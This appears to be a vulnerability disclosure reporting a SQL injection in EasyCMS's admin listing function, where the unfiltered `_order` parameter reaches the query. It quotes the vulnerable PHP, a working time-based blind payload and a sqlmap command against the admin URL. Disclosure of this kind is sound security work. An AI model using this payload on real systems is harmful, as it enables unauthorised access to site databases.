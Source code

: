 # EasyCMS's background query function SQL injection vulnerability(new)

1.The following code has SQL injection:

vulnerability found in:
    \App\Modules\Admin\Action\ArticlemAction.class.php line 390 function _list
   
		$list = $model->where($map)->relation(true)->order($order.' '.$sort)
						->limit($p->firstRow.','.$p->listRows)
						->select();			
		if (method_exists($this, '_tigger_list')) {
			$this->_tigger_list($list);
		}
		foreach ($map as $key => $val) {
			if (!is_array($val)) {
				$p->parameter .= "$key=" . urlencode($val) . "&";
			}
		}

![图片](https://user-images.githubusercontent.com/90664154/149264230-11e0c622-8903-4d8e-af35-d95d0e76aac7.png)

The variable Order is not filtered and SQL injection exists.

Web sample:
![图片](https://user-images.githubusercontent.com/90664154/149264421-d0bb1b16-72e3-45f4-8c45-f9f7964336d0.png)


2.Payload
URL:/index.php?s=/admin/user/index.html

Payload: _order=123 AND (SELECT 8561 FROM (SELECT(SLEEP(5)))MlTU)&keyword=123&numPerPage=10&pageNum=1

Parameter: _order (POST)

Type: time-based blind

sqlmap command:
python sqlmap.py -r easycms.txt -batch

result:
![图片](https://user-images.githubusercontent.com/90664154/149264277-a720fa3e-c1d2-4184-aabf-a637bb3138ad.png)


